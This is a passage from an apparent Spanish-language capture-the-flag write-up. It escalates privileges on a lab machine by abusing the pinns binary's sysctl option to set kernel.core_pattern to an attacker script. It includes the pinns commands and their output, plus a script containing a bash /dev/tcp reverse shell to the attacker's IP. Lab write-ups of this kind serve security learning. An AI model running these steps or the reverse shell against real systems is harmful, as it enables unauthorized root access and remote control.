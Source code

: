 Analizando encontramos los que parecen ser los argumentos del programa, estos para eligir cuales namespaces fijar y otras opciones si miramos más abajo en el código...

{% highlight c %}
static const struct option long_options[] = {
  {"help", no_argument, NULL, 'h'},
  {"uts", optional_argument, NULL, 'u'},
  {"ipc", optional_argument, NULL, 'i'},
  {"net", optional_argument, NULL, 'n'},
  {"user", optional_argument, NULL, 'U'},
  {"cgroup", optional_argument, NULL, 'c'},
  {"mnt", optional_argument, NULL, 'm'},
  {"dir", required_argument, NULL, 'd'},
  {"filename", required_argument, NULL, 'f'},
  {"uid-mapping", optional_argument, NULL, UID_MAPPING},
  {"gid-mapping", optional_argument, NULL, GID_MAPPING},
  {"sysctl", optional_argument, NULL, 's'},
};
{% endhighlight %}

Si le especificamos el directorio nos va a pedir un nombre de archivo, y si creamos el archivo nos va a pedir ahora un namespace para fijar:

{% highlight bash %}
ethan@vessel:/tmp$ mkdir test
ethan@vessel:/tmp$ pinns -d test
[pinns:e]: Filename for pinning namespaces not specified: Invalid argument
ethan@vessel:/tmp$ touch test/filetest
ethan@vessel:/tmp$ pinns -d test -f test/filetest
[pinns:e] No namespace specified for pinning
{% endhighlight %}

Supongamos que debe ser una de las opciones de ipc, mnt, cgroup, net... etc. Ahora para llegar a ejecutar un comando podriamos intentar usar la opción `-s` con la cual especificaremos un `kernel.core_pattern` personalizado para ejecutar un script que creemos, simplemente debemos iniciar el valor de dicho argumento con un "\|" y del resto poner la ruta al script:

`kernel.core_pattern=|/tmp/malicious.sh`

Vamos a crear dicho archivo con un comando mágico para que me devuelva una reverse shell a mi equipo, no te olvides de darle permisos de ejecución:

{% highlight bash %}
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.82/443 0>&1"
{% endhighlight %}

Al ejecutar pinns con los parametros que deducimos finalmente nos mostrará un error, pero si vemos la propiedad core_pattern...

{% highlight bash%}
ethan@vessel:/tmp$ pinns -s "kernel.core_pattern=|/tmp/malicious.sh" -i -d test -f test/filetest
[pinns:w]: Failed to create ns file: No such file or directory
ethan@vessel:/tmp$ cat /proc/sys/kernel/core_pattern 
|/tmp/malicious.sh
{% endhighlight %}


[pinns:e]: Path for pinning namespaces not specified: Invalid argument